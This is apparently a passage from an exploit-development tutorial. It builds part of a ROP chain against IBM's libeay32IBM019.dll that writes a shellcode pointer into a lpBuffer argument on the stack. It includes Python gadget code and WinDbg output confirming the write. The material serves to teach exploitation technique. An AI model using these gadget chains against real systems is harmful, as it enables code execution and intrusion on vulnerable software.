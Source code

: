 `0x88888888` is the large, positive value (part 1 of the addition), and `0x77777878` is the complementary value (part 2).

#### `lpBuffer` patching mechanism

we'll need to obtain the stack address where the `lpBuffer` argument should be patched into `EAX`. this is because the gadget being used uses the `MOV [EAX], ECX` instruction, so the address of the shellcode needs to be moved into `ECX` first.

```python
rop += pack("<L", (dllBase + 0x8876d)) # mov ecx, eax ; mov eax, esi ; pop esi ; retn 0x0010
rop += pack("<L", (0x42424242)) # junk into esi
rop += pack("<L", (dllBase + 0x48d8c)) # pop eax ; ret
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0x42424242)) # junk for ret 0x10
rop += pack("<L", (0xfffffee0)) # pop into eax
rop += pack("<L", (dllBase + 0x1d0f0)) # add eax, ecx ; ret
rop += pack("<L", (dllBase + 0x1fd8)) # mov [eax], ecx ; ret
```

the first gadget uses a return instruction (with an offset of `0x10`). execution will then return to the `POP EAX` gadget's address on the stack, and the stack pointer is increased by `0x10`. because of this, we'll need to insert `0x10` junk bytes before the value `0xfffffee0` is popped into `EAX`.

the ROP chain then pops the value `0xfffffee0` into `EAX` and adds the contents of `ECX` to it. `0xfffffee0` corresponds to `-0x120`, which is the correct value to align `EAX` with the `lpBuffer` placeholder (aka the shellcode pointer) on the stack. the last gadget in the chain overwrites the `lpBuffer` argument with the real shellcode address.

you can verify this by placing a breakpoint on the gadget that writes the real shellcode address on the stack (`libeay32IBM019+0x1fd8`). you can then step over the `mov` instruction and display the ROP skeleton on the stack.

```shell
0:078> bp libeay32IBM019+0x 1fd8
*** ERROR: Symbol file could not be found. Defaulted to export symbols for C:\Program
Files\ibm\gsk8\lib\N\icc\osslib\libeay32IBM019.dll -

0:078> g
Breakpoint 0 hit
eax=0dbbe2fc ebx=05f6c280 ecx=0dbbe41c edx=77251670 esi=42424242 edi=00669360
eip=03111fd8 esp=0dbbe364 ebp=41414141 iopl=0 nv up ei pl nz na pe cy
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000207
libeay32IBM019!N98E_CRYPTO_get_mem_ex_functions+0x48:
03111fd8 8908 mov dword ptr [eax],ecx ds:0023:0dbbe2fc=41414141

0:063> p
eax=0dbbe2fc ebx=05f6c280 ecx=0dbbe41c edx=77251670 esi=42424242 edi=00669360
eip=03111fda esp=0dbbe364 ebp=41414141 iopl=0 nv up ei pl nz na pe cy
cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000207
libeay32IBM019!N98E_CRYPTO_get_mem_ex_functions+0x4a:
03111fda c3 ret

0:063> dd eax-10 L7
0dbbe2ec 75f42890 031a2c04 ffffffff 031a2c04
0dbbe2fc 0dbbe41c 42424242 031f401c

0:063> dd 0dbbe41c L8
0dbbe41c 44444444 44444444 44444444 44444444
0dbbe42c 44444444 44444444 44444444 44444444
```
